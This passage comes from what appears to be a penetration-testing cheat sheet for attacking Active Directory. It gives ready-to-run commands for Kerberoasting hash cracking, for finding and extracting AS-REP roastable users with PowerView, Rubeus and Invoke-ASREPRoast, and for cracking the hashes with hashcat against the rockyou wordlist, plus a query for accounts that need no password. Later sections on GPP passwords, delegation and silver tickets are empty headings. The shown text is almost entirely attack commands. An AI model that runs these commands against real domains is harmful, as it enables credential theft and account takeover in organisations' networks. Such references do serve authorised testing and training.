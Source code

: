## Crack TGS tickets
`hashcat -a 0 -m 13100 kerberoasted.txt /usr/share/wordlists/rockyou.txt`

# 4. ASREPRoasting
## Identify AS-REP roastable users
### PowerView-Dev
`Get-DomainUser -PreauthNotRequired | ft samaccountname, pwdlastset`

`Get-DomainUser -UACFilter DONT_REQ_PREAUTH,NOT_PASSWORD_EXPIRED | ft samaccountname, pwdlastset`

### Rubeus
`.\Rubeus.exe asreproast`

### Invoke-ASREPRoast
`Import-Module .\Invoke-ASREPRoast.ps1`

`Invoke-ASREPRoast`

## ASREPRoasting
### Rubeus
`.\Rubeus.exe asreproast /format:hashcat /outfile:asrephashes.txt`

### Invoke-ASREPRoast
`Invoke-ASREPRoast | % { $_.Hash } | Out-File -Encoding ASCII asrephashes.txt`

## Cracking AS-REP hash with Hashcat
`hashcat -a 0 -m 18200 asrephashes.txt /usr/share/wordlists/rockyou.txt`

# 5. PASSWD NOT REQ
Get-ADUser -Filter {PasswordNotRequired -eq $true}

ToDO

# 6. GPPPassword


# 7. Unconstrained Delegation


# 8. Constrained Delegation


# 9. Silver Tickets
